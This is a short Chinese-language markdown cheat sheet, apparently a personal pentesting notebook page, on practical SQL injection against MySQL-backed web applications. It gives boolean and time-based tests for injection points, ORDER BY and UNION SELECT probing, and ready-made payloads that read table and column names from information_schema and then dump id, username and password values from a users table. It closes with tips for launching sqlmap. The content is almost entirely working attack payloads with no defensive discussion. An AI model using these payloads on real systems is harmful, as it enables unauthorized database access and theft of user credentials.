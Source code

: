 # SQL注入实战

## 判断是否有注入点

and 1=1 / and 1=2 回显不同

and sleep（5）判断页面暂停时间（有则暂停，没有不执行语句

## 步骤

### 寻找注入点（后台代码）

### 测试注入点（and 1=1/and 1=2）

### 测试字段长度(order by 4)

### 监测回显位置(union select 1,2,3,4)

### 进行数据库表，列，列表爆破

#### 获取当前数据库名

```
-1 union select 1,2,database(),4 
```

#### 获取当前数据库表名

```
-1 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3，4
```

{% hint style="info" %}
information\_schema.tables是mysql存储表数据的表，固定名字
{% endhint %}

#### 获取表中字段名

```
-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_name='上面获取的名字'),3--+
```

{% hint style="info" %}
注意table\_name是上一步获取的名字
{% endhint %}

#### 获取数据

```
-1' union select 1,(select group_concat(id,0x7c,username,0x7c,password) from users),3--+
```

{% hint style="info" %}
id，username，password是上一步获取的名字，0x7c是竖线，from后面是上两步获取的表名
{% endhint %}

## SQLMAP的使用

### 闪退问题解决

1.管理员进入cmd

2.进入python路径以及sqlmap路径

cd python2.7

cd sqlmap

3.使用python sqlmap.py -h执行指令
